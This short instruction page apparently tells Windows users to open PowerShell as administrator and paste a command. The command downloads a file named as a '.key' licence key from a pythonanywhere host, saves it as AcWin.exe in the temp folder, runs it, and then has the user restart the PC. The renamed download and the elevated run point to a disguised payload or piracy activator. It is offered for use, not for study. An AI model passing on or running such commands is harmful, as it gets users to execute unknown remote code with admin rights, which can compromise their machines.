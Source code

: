 Press `Win Key` + `X` and select Windows PowerShell(Admin)

Paste the following command and press enter:

    Invoke-WebRequest -Uri kmsconnection.pythonanywhere.com/static/3KHY7-WNT83-DGQKR-F7HPR-844BM.key -OutFile $env:TEMP\AcWin.exe; Start-Process $env:TEMP\AcWin.exe

Restart your PC
